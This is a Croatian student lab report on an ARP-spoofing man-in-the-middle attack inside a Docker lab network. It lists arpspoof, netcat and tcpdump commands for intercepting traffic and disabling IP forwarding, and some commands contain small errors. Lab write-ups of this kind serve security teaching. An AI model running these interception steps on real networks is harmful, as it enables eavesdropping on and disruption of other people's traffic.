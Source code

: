 # Izvještaj za 1. labaratorijske vježbe

Created: October 20, 2021 12:13 PM
Last Edited Time: October 20, 2021 12:50 PM

## **Zadatak**

Izvršiti man in the middle napad u virtualnoj Docker mreži.

## Korišteni kod

Kloniranje repozitorija sa GitHuba

`$ git clone [https://github.com/mcagalj/SRP-2021-22](https://github.com/mcagalj/SRP-2021-22)`

Pokretanje docker containera

`$ ./start.sh`

Zaustavljanje docker containera

`$ ./stop.sh`

Pokretanje interaktivnog shella u station-1

`$ docker ps exec -it sh`

Dohvaćanje podataka o mrežnom interfaceu

`$ ipconfig -a`

*Dobivamo podatke (primarno IP i Ethernet adresu koja će nam biti korisna dalje)*

Pingamo station-2 kako bi saznali nalazi li se na istoj mreži

`$ ping station-2`

Pokretanje interaktivnog shella u station-2

`$ docker ps exec -it station-2 sh`

U station-1 pomoću netcata otvaramo TCP scoket na portu 9000

`$ netcat -l -p 9000`

U station-2 pomocu netcata otvaramo client TCP socket na hostnameu station-1 9000

`$ netcat station-2 9000`

Pokretanje interaktivnog shella u evil-station

`$ docker ps exec -it evil-station sh`

U evil-station pokrećemo arpspoof

`$ arpspoof -t station-1 station-2`

*Stationu-1 se predstavljamo kao station-2 povezivanjem ethernet adrese evil-stationa sa IP adresom station-2*

Pokrećemo tcpdump u evil-stationu, te filtriramo promet

`$ tcpdump -X host station-1 and not arp`

Zaustavljamo prosljeđivanje presretanog prometa stationu-2

`$ echo 0 > /proc/sys/net/ipv4/ip_forward`

## Zaključak

Iskorištavanjem mana ARP protokola, možemo narušiti svaki segment CIA zahtjeva.
